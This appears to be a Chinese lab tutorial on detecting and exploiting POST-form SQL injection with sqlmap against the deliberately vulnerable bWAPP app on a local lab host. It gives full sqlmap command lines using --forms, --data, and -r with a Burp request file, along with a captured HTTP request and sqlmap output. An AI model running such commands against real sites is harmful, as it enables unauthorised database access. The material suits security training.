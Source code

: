 # ==sqlmap注入实验==

**完成：POST表单SQL注入检测与利用**

使用POST提交的数据不会出现在URL中，而是在HTTP请求主体当中。如果需要对主体中的数据进行注入，需要使用Sqlmap中关于POST注入的参数。



### 获取url

![image-20230906082642900](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230906082642900.png)

### 获取cookie

  ![image-20230906082816028](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230906082816028.png)

```shell
root@kali:~# sqlmap -u "http://192.168.0.101/bWAPP/sqli_6.php" --cookie="security_level=0; PHPSESSID=6e1bc666112a327fef37797ca501832a" --dbs --batch
```

`--dbs`表示获取数据库

`--batch`表示使用默认，也就是直接默认Y

但是这样我们会发现输出结果会报错，并没有我们想要的结果，是因为我们以这种方式实际上是以GET方式请求，那么此时就会去我们的url中去寻找是否提交了参数，又因为我们现在这个POST请求方式中不会在url中出现对应的参数，所以就会出现下面的情况

```shell
──(root💀Kali-1)-[~]
└─# sqlmap -u "http://192.168.0.101/bWAPP/sqli_6.php" --cookie="security_level=0; PHPSESSID=6e1bc666112a327fef37797ca501832a" --dbs --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.6#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent isillegal. It is the end user's responsibility to obey all applicable local, state and federalaws. Developers assume no liability and are not responsible for any misuse or damage caused bythis program
[*] starting @ 21:87:49 /2020-06-02/
[21:07:49] [INFO] testing connection to the target URL
[21:07:50] [WARNING] potential CAPTCHA protection mechanism detected
[21:07:50] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:07:50] [INFo] testing if the target URL content is stable
[21:97:59] [INFO] target URL content is stable[21:07:50] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GETparameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--forms --crawl=2'
[21:07:50] [WARNING] you haven't updated sqlmap for more than 305 days!!!
[*] ending @ 21:7 :5 /2020-06-02/
```

那么我们如何使用POST请求的方式呢？

## 方式1：sqlmap -u "url" --from

```shell
root@kali:~# sqlmap -u "http://192.168.0.101/bWAPP/sqli_6.php" --cookie="security_level=0; PHPSESSID=6e1bc666112a327fef37797ca501832a" --forms --dbs --batch
```

![image-20230906084733736](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230906084733736.png)





## 方式2：sqlmap -u "url" --data "POST提交的数据"

```shell
sqlmap -u "http://192.168.0.101/bWAPP/sqli_6.php" --cookie="security_level=0; PHPSESSID=6e1bc666112a327fef37797ca501832a" --data="title=aaa&action=search"
```

![image-20230906090054872](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230906090054872.png)

我们会发现好像不是我们所需要的内容，是因为，在上一次探测中，探测的数据自动存储到了下面这个路径下，我们要想重新探测成功，需要先将这个路径下的文件删除，然后再重新探测

![image-20230906090300203](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230906090300203.png)

![image-20230907093841958](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907093841958.png)





## 方式3：sqlmap -r http 文本文件 -p 指定测试参数

使用burpsuite抓包，并保存为文本文件。copy to file 或者直接复制粘贴保存

```http
POST /bWAPP/sqli_6.php HTTP/1.1
Host : 192.168.0.101
User-Agent: Mozilla/5.0 (X11; Linux x86_64; r:60.0) Gecko/20100101 Firefox/60.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip，deflate
Referer: http://192.168.8.101 /bWAPP/sqli_6.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Cookie: security_level=0; PHPSESSID=cd6092f82040dc2a751b120b6ee33bc6
Connection: close
Upgrade-Insecure-Requests: 1

title=aaaa&action=search
```

先把之前执行测试探测的结果删除

![image-20230907095332620](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907095332620.png)

接下来开始进行抓包

![image-20230907095553664](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907095553664.png)

或者

![image-20230907095623519](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907095623519.png)

-p 探测参数 后面的指定测试参数就是我们自己填的那段字符对应的title或者是action

![image-20230907100153812](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907100153812.png)

![image-20230907100501570](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907100501570.png)

但是因为我们上面已经将探测后的文件保存了下来，所以我们现在不需要在输入那么长一段来使用cookie和-p data等，可以直接-r http文本 -p title就好

```sql
sqlmap -r /root/Desktop/http.txt -p title --batch
```

![image-20230907101722884](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907101722884.png)

当然，其实我们可以直接在文件中指定要进行注入测试的地方，只需要把诸如点改为 * 号，然后sqlmap就会直接自动进行注入，如下：

这是原本保存下来之后的http文本内容

![image-20230907102308012](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907102308012.png)

 这是修改之后的内容

![image-20230907102339475](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907102339475.png)

之后直接wq保存退出就好了

这样操作之后只需要-r http文本就好了，然后他会自动在我们的 * 号的位置插入payload，并且探测出对应的结果

![image-20230907102706326](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230907102706326.png)

**小结：**

**1.掌握POST注入利用过程的三种方式**

**2.务必注意 探测结果会保存在 /root/.sqlmap/output目录下。**

